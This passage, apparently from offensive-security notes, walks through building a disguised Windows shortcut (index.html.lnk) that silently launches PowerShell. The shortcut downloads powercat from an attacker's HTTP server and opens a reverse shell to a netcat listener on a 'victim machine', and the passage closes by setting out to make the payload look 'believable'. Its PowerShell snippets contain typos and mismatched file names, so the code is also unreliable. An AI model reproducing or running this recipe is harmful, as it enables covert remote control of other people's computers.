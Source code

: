 2. Creat the shortcut file .lnk will never apear to the user
   
    ```powershell
    $destination = “c:\Users\Public\index.html.lnk”
    $shortcut = $shell.CreatShortcut($detination)
    $shortcut.TargetPath = "c:\Users\IEUser\hello.txt" #el barnamij eli ra7 tsha8lo
    $shortcut.IconLocation = "c:\"
    $shortcut.Save()
    ```
    
    ## Download Virus on the victim machine
    
    - Fire a python file server
    - Get netcat ready and lessening
    - Start the script that will download the file from the files server and connect back to netcat
    
    Attacker side: 
    
    ```powershell
    python -m http.server 8000
    nc -vlp 4444
    ```
    
    Victim side: 
    
    ```powershell
     $shortcut.Arguments = “ ”
    ```
    
    This will work as an instructions in powershell the $shortcut path must be powershell.exe
    
    > iwr = Invoke Web request
    > 
    
    > The -OutFile part of the script will output the file under a new name in specefied path
    > 
    
    ```powershell
    iwr -Uri http://localhost:8000/powercat.ps1 -OutFile $env:temp\shell.exe;& $env:temp\shell.ps1
    ```
    
    We already created a shortcut so now we need to modify the path and add the argument
    
    ```powershell
    $shortcut.TargetPath = "powershell.exe"
    $shortcut.Argument = '-c "iwr -Uri http://localhost:8000/powercat.ps1 -OutFile $env:temp\shell.exe;& $env:temp\shell.ps1"'
    $shortcut.WindowStyle = 7
    ```
    
    This is better than creating a shortcut → that will lunch a ps file with the command in the Argument
    
    ## Make The .exe file that have the code of the reverse shell believable
    